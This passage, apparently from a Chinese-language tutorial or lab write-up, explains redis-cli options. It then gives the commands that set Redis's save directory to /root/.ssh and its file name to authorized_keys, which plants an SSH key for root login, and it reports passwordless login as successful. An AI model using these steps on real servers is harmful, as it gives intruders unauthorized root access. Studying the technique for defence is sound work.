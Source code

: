  

| 

将文件内容作为redis命令的参数

 

-h

指定redis服务器的ip

 

-x

从标准输入中读取数据，作为后续Redis命令的参数

-x配合管道符使用，将管道传递的数据作为set命令的值

 

set pkey

set是redis的命令，用于设置一个键值对

语法为set key value

pkey是redis中的键名

-x确保了管道传输的文件内容会作为pkey的值进行设置



##### 连接redis-cli

将存储文件路径改为/root/.ssh/

文件名改为authorized_keys

保存

```
config set dir /root/.ssh
config set dbfilename authorized_keys
save
```



##### 免密登录成功

![image-20250309200120305](./assets/image-20250309200120305.png)
